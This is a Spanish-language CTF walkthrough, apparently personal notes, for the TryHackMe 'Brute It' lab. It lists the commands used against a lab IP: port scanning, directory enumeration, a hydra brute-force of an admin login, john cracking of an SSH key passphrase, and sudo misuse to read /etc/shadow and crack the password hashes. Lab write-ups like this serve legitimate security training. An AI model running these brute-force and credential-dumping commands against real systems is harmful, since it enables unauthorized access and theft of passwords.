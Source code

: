 https://tryhackme.com/r/room/bruteit
# Fase de reconocimiento
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.201.81
```
![[Pasted image 20240505181432.png]]
## Reconocimiento de servicios
```
nmap -sVC -p22,80 -Pn 10.10.201.81
```
![[Pasted image 20240505181501.png]]
## Gobuster
```
gobuster dir -u http://10.10.201.81 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
```
![[Pasted image 20240505182046.png]]
# Fase de ataque
En el código fuente encontramos el username
![[Pasted image 20240505183119.png]]
## Hydra
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.201.81 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid"
```
![[Pasted image 20240505183607.png]]
Nos conectamos y encontramos la clave privada de John
```
chmod 600 id_rsa
```
## John
La clave tiene prassphrase
```
ssh2john id_rsa Z idrsa.john
```
```
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```
![[Pasted image 20240505184627.png]]

Nos conectamos por SSH
[-] ==pwned!==
# Privilege Escalation
Podemos ejecutar el siguiente comando con contraseña para saber que comandos con privilegios puede utilizar el usuario
```
sudo -l
```
![[Pasted image 20240505190149.png]]
Podemos ver archivos con permiso de root con /bin/bash.
Las contraseñas se encuntran en  /etc/shadow hasheadas
```
PASS=/etc/shadow; sudo cat "$PASS"
```
```
PASS=/etc/passwd; sudo cat "$PASS"
```
La crackeamos
1. Las combinamos
```
unshadow passwd.txt shadow.txt > passwords
```
2. Crackeamos
2 Fomas: 
```
john --wordlist=/usr/share/wordlists/rockyou.txt passwords
```
```
hashcat -m 1800 passwords /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20240505193229.png]]
[+] ==pwned!==

